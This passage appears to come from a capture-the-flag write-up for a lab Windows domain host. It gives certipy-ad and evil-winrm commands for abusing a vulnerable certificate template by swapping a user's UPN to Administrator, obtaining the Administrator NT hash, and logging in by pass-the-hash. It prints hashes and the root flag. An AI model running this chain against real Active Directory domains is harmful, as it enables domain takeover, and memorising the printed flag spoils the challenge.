





We see that the credential is OK, so we try to get a shell with evil-winrm
```bash
$ evil-winrm -i 10.10.11.41 -u 'ca_operator' -H  b4b86f45c6018f1b664f70805f45d8f2
```
We need to upgrade de ca_operator to Administrator, so we use certipy
```bash
$ certipy-ad account update  -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```
Now we request the vulnerable certificate template
```bash
$ certipy-ad find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout 
```


The name of de template is “CertifiedAuthentication”
```bash
$ certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41 
```


Now we need to turn the username ca_operator as previos as Administrator user because if you don't do this, the administrator.pfx doesn't workp properly in the ca_operator user
```bash
$ certipy-ad account update  -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```


Now to get the Hash NT from Administrator user, we need to do:
```bash
$ certipy-ad auth -pfx administrator.pfx -domain certified.htb -dc-ip 10.10.11.41
```



Administrator Hash NT →  0d5b49608bbce1751f708748f67e2d34

Now that we have de Administrator HAsh NT we can use evil-winrm tool to get a Administrator shell and get the root flag
```bash
$ evil-winrm -i 10.10.11.41 -u 'Administrator' -H 0d5b49608bbce1751f708748f67e2d34
```


```bash
Root Flag → 6a51cc718ac3346fc707cadfa4a943ea
```


[Back](README.md)